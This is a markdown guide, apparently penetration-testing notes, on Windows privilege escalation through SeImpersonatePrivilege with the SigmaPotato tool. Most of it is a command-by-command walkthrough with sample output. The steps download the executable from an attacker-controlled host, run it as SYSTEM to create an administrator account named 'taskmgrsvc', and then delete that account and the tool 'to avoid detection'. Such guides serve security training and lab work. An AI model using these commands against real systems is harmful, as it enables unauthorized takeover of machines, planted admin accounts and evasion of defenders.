 ## SeImpersonatePrivilege

### Overview
The `SeImpersonatePrivilege` privilege allows a user to impersonate another user's security context. By default, this privilege is granted to system accounts such as:
- **LOCAL SERVICE**
- **NETWORK SERVICE**
- **SERVICE**
- Members of the **Administrators** group.

Attackers can abuse this privilege to escalate their access to NT AUTHORITY\SYSTEM by leveraging tools that coerce privileged processes into connecting to a controlled **named pipe**.

This guide demonstrates:
1. **Identifying SeImpersonatePrivilege**.
2. **Exploiting the privilege** using `SigmaPotato` to escalate privileges.

---

### Step 1: Check Assigned Privileges
To determine if the current user has `SeImpersonatePrivilege`, use:

```powershell
whoami /priv
```

#### Example Output:
```plaintext
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeSecurityPrivilege           Manage auditing and security log          Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The output confirms that `SeImpersonatePrivilege` is **Enabled** for the current user.

---

### Step 2: Identify the Exploit Path
The privilege can be exploited by coercing a privileged process (e.g., `SYSTEM`) into connecting to a controlled named pipe. Tools like **SigmaPotato** and **JuicyPotato** automate this process.

For this guide, we will use **SigmaPotato**.

---

### Step 3: Download SigmaPotato
On your attacker machine (e.g., Kali Linux):

1. Download the SigmaPotato executable:
   ```bash
   wget https://github.com/tylerdotrar/SigmaPotato/releases/download/v1.2.6/SigmaPotato.exe
   ```
2. Start a Python HTTP server to host the file:
   ```bash
   python3 -m http.server 80
   ```
3. Transfer SigmaPotato to the target system:
   ```powershell
   iwr -Uri http://<attacker_ip>/SigmaPotato.exe -OutFile SigmaPotato.exe
   ```

**Example**:
```powershell
PS C:\Users\dave> iwr -Uri http://192.168.48.3/SigmaPotato.exe -OutFile SigmaPotato.exe
```

---

### Step 4: Run SigmaPotato to Escalate Privileges
SigmaPotato will leverage the `SeImpersonatePrivilege` to execute commands as **NT AUTHORITY\SYSTEM**.

1. **Add a New User**:
   ```powershell
   .\SigmaPotato.exe "net user taskmgrsvc Password123! /add"
   ```
2. **Add the User to Administrators Group**:
   ```powershell
   .\SigmaPotato.exe "net localgroup Administrators taskmgrsvc /add"
   ```

#### Example Output:
```plaintext
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
...
[+] Process Output:
The command completed successfully.
```

---

### Step 5: Verify Privilege Escalation
1. Verify the new user was created:
   ```powershell
   net user
   ```
2. Confirm the user is in the Administrators group:
   ```powershell
   net localgroup Administrators
   ```

**Example Output**:
```plaintext
User accounts for \CLIENTWK220
-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave                     
taskmgrsvc               daveadmin                DefaultAccount           

Alias name     administrators
Members
-------------------------------------------------------------------------------
Administrator
taskmgrsvc
```

The output confirms that `taskmgrsvc` was successfully added to the **Administrators** group.

---

### Step 6: Cleanup
To avoid detection, remove the malicious user and clean up any traces:

1. Remove the user:
   ```powershell
   net user taskmgrsvc /delete
   ```
2. Delete the SigmaPotato executable:
   ```powershell
   del SigmaPotato.exe
   ```

---

### Notes
- The **Potato Family** tools (e.g., SigmaPotato, JuicyPotato, RottenPotato) exploit `SeImpersonatePrivilege` using named pipes.
- These tools work when running as services like `NETWORK SERVICE`, `LOCAL SERVICE`, or other accounts with `SeImpersonatePrivilege` enabled.
- Always verify the privilege and exploit safely to avoid system disruptions.

---

### References
- [SigmaPotato on GitHub](https://github.com/tylerdotrar/SigmaPotato)
- [HackTricks - SeImpersonatePrivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privileges-and-impersonation/seimpersonateprivilege)

---
